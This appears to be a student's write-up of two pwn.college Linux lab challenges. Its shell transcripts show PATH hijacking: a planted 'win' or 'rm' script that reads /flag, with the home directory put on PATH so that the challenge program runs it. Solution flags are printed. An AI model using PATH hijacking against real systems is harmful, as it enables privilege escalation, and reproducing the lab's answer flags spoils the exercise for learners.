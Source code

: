 
```
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ cat win
hacker@path~adding-commands:~$ cat > win << 's'
> #!/bin/bash
> cat /flag
> s
hacker@path~adding-commands:~$ PATH=$PATH:/home/hacker
hacker@path~adding-commands:~$ chmod a+x win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{UpVxikjfIkneE9QmkQ_5nee8F1R.QX2cjM1wiM4kjNzEzW}
```

## What I learned
* I learnt how to append a path to PATH using PATH=$PATH:/home/hacker.
* I learnt how to make /challenge/run access a file that was created in a path different from those contained in PATH.

## References 
No references.

# HIJACKING COMMANDS
this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

## My solve
**Flag:** `pwn.college{sXYdfwJFlg4p0fH86Le102Qgvu2.QX3cjM1wiM4kjNzEzW}`

1. Used cat to create a shell script rm storing the operation cat /flag.
2. Appended /home/hacker to the beginning of PATH so that its the first path that /challenge/run will check while executing.
3. added executable access to /challenge/run using chmod.
4. ran /challenge/run and obtained the flag.

```
hacker@path~hijacking-commands:~$ cat > rm << 's'
> #!/bin/bash
> cat /flag
> s
hacker@path~hijacking-commands:~$ PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{sXYdfwJFlg4p0fH86Le102Qgvu2.QX3cjM1wiM4kjNzEzW}
hacker@path~hijacking-commands:~$
```
or
```
hacker@path~hijacking-commands:~$ cat > rm << 's'
> #!/bin/bash
> cat /flag
> s
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ PATH=""
hacker@path~hijacking-commands:~$ PATH=/home/hacker:/run/dojo/bin:$PATH
hacker@path~hijacking-commands:~$ echo $PATH
/home/hacker:/run/dojo/bin:
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
```